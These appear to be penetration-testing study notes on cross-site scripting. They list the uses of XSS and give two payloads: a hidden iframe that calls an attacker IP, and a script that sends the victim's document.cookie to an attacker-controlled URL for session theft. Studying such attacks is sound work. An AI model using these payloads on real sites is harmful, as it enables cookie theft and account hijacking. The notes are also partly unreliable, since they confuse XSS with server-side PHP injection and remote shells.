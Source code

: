 # 7.1 Cross Site Scripting \(XSS\)

* Uses of XSS attacks
  * cookie stealing
  * authentication bypass
  * redirecting the victim’s browser to a malicious HTML page
  * etc
* XSS vulnerabilities are caused due to unsanitized user input that is then displayed on a web page in HTML format.
* Like injecting a malicious PHP code inside a PHP page. Such that the malicious code runs on the server.
* XSS vulnerabilities go hand in hand with client side attacks.
* Usually remote shell got in such way of exploit have user "www-data".

### 7.1.1 Browser Redirection and IFRAME Injection

* Uses
  * Client side attacks
  * Information gathering script
* Given an environment which is not the user input are not sanitized.
* We first inject malicious code in the webpage as a script. The webpage could be using javascript, PHP, etc. We inject our code in these scripts.
* To steal **cookie or such information of other client** browsing the same website. We inject a reverse connection scripts
  * `<iframe SRC="http://192.168.1.1:80/report" height = "0" width = "0"></iframe>`
  * where 192.168.1.1 is the attacker system IP address for reverse connection.

### 7.1.2 Stealing Cookies and session information

* Instead of a executing a simple remote connection script, we want to first find an authenticated script value, and then exfiltrate this value to the attacker.

```text
<script>
new Image().src="http://192.168.1.1/bogus.php?output="+document.cookie;
</script
```

We inject the above script. This script will first get PHP authenticated cookie and send it to the attacker system. Attacker IP = 192.168.1.1



